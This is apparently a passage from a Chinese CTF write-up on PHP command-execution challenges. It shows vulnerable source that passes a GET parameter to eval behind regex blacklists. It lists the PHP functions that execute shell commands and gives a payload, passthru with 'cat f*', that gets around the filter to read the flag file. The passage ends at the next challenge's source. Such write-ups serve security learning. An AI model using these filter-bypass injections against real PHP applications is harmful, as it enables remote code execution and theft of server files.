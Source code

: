 
```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}

```

> 
命令执行函数有


```
system()
passthru()   # passthru — 执行外部程序并且显示原始输出
exec()       # exec — 执行一个外部程序  
shell_exec() # shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
popen()
proc_open()
pcntl_exec()
`` 同shell_exec()

```

> 
Payload


```
echo passthru("cat f*");

```

## web31

> 
源码


```
&lt;?php
    
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 

```

